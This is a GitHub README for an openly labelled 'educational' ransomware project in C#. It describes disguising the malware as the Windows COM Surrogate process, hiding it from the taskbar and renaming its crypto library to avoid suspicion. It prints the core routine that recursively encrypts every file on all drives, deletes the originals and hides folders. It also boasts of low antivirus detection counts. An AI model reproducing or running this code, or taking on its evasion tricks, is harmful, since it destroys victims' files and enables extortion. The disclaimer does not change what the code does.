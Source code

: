 # Ransomware

Ransomware is a project written in C# 4.6.2 and shows how ransomeware generally works. This repository should be used for educational reasons only!!

[![Build status](https://ci.appveyor.com/api/projects/status/m435h8vg3m6uwdv2?svg=true)](https://ci.appveyor.com/project/SeppPenner/ransomware)
[![GitHub issues](https://img.shields.io/github/issues/SeppPenner/Ransomware.svg)](https://github.com/SeppPenner/Ransomware/issues)
[![GitHub forks](https://img.shields.io/github/forks/SeppPenner/Ransomware.svg)](https://github.com/SeppPenner/Ransomware/network)
[![GitHub stars](https://img.shields.io/github/stars/SeppPenner/Ransomware.svg)](https://github.com/SeppPenner/Ransomware/stargazers)
[![GitHub license](https://img.shields.io/badge/license-AGPL-blue.svg)](https://raw.githubusercontent.com/SeppPenner/Ransomware/master/License.txt)

## Folders
The [Setup](https://github.com/SeppPenner/Ransomware/blob/master/Setup) folder contains a [Inno Setup](http://www.jrsoftware.org/isinfo.php) script and the installer.

The [BeforeSetup](https://github.com/SeppPenner/Ransomware/blob/master/BeforeSetup) folder contains the files the setup installs.

The [Projects](https://github.com/SeppPenner/Ransomware/blob/master/Projects) folder contains the C# source code.

## The stuff behind
The **LustigeFehler.exe** file is the main exe. It will start and show some nonsense error messages.

If it's not run in admin mode, it will crash with an error. If the .exe is started in admin mode, it will start up a new hidden (can't be seen in the taskbar or as GUI) process called
[COM Surrogate](https://github.com/SeppPenner/Ransomware/blob/master/Projects/COM%20Surrogate) in the background.

Why **COM Surrogate**? - Because noone will ever expect a [standard Windows process](https://www.howtogeek.com/326462/what-is-com-surrogate-dllhost.exe-and-why-is-it-running-on-my-pc/) is running as a virus.
In the background, the our **Fake COM Surrogate.exe** will run and try to encrypt all files on all drives it finds.

Additionally, it will **hide** all folders it finds. Furthermore, the AES crypto library is obfuscated to the name **msvpc.dll** to avoid that suspicious users (who take a look into the install folder) get more suspicious.

How is this possible? - The following lines of code taken from [Main.cs](https://github.com/SeppPenner/Ransomware/blob/master/Projects/COM%20Surrogate/COM%20Surrogate/Main.cs) show the main **ransomware** code.
```csharp
private string GetRandomPassword()
{
   var alg = SHA512.Create();
   alg.ComputeHash(Encoding.UTF8.GetBytes(DateTime.Now.ToLongDateString() + _random.Next(int.MaxValue)));
   return BitConverter.ToString(alg.Hash);
}

private void Run()
{
   foreach (var drive in DriveInfo.GetDrives())
   {
      try
      {
         EncryptFs(drive.Name);
      }
      catch
      {
         // ignored
      }
   }
}

private void EncryptFs(string directory)
{
   foreach (var file in Directory.GetFiles(directory))
   {
      try
      {
         if (file == null) continue;
         Msvpc.UseE(GetRandomPassword(), file,
            Path.Combine(directory, Path.GetFileNameWithoutExtension(file)) + Resources.Ending);
         File.Delete(file);
      }
      catch
      {
         // ignored
      }
   }

   foreach (var dir in Directory.GetDirectories(directory))
   {
      HideDirectory(dir);
      EncryptFs(dir);
   }
}

private void HideDirectory(string dir)
{
   var di = new DirectoryInfo(dir);
   if ((di.Attributes & FileAttributes.Hidden) != FileAttributes.Hidden)
   {
      di.Attributes |= FileAttributes.Hidden;
   }
}

private bool IsElevated()
{
   var id = WindowsIdentity.GetCurrent();
   return id.Owner != id.User;
}
```

## Virustotal.com scans
Well, let's see what [virustotal.com](virustotal.com) shows us as information on this "virus":

* The dllhost.exe: https://www.virustotal.com/#/file/ff946d2667b9a51b477d3abcdb12177b732c27901e199731cfe21f9430fba568/detection -->  9 / 57 detections --> Very poor :D
* The LustigeFehler.exe: https://www.virustotal.com/#/file/18436c0625daad52a141eeb9f4d4cbfd94e54264fa949ec9597c84c4ad0b39bb/detection --> 0 / 57 detections, which is ok. It's clean.
* The LustigeFehler-Setup.exe: https://www.virustotal.com/#/file/31f5447fa6c498ab526f1686cb77778f41223d6783ccba4298f9580ce8dfa055/detection --> 11 / 58 detections --> Very poor :D

## Hint
Please don't try this software on your PC. It's for educational purposes only!!!!!!

Change history
--------------
* **Version 1.0.0.0 (2018-01-08)** : 1.0 release.
